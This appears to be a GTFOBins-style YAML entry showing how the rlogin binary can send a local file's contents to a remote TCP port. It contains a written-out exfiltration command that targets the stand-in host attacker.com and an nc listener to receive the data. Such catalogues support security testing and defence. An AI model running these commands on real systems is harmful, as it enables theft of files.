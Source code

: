 ```yaml
---
functions:
  file-upload:
    - description: Send contents of a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"` on the attacker system to capture the contents.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        rlogin -l "$(cat $LFILE)" -p $RPORT $RHOST
---
```

